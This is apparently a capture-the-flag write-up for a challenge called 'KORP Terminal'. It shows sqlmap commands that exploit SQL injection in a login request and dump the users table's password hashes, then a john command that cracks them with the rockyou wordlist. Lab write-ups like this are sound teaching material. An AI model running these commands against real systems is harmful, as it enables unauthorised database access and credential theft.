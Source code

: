# KORP Terminal

So here is the page we are greeted with:

<figure><img src="../../../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Nothing much happening here, nothing in the source code, so i go on and capture a request

<figure><img src="../../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

So i tried some basic sql bypasses but nothing seems to be a low hanging fruit but i was able to make an interesting error pop:

<figure><img src="../../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

so we got some mariaDB behing this, but since i wan't to be quick i copy all the content in the request tab and put it in a txt file:

```
sqlmap -r req.txt
```

<figure><img src="../../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

We get blocked because of the response code but we can continue by ignoring this:

```
sqlmap -r req.txt --ignore-code 401 --dbs
```

<figure><img src="../../../../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 --tables korp_terminal
```

<figure><img src="../../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 --tables users --columns
```

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

```
sqlmap -r req.txt --ignore-code 401 -T users -C password --dump
```

<figure><img src="../../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

Now that we have our hash we can try to bruteforce ir:

```
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt.gz
```

and we find the password (we could guess that smh...)
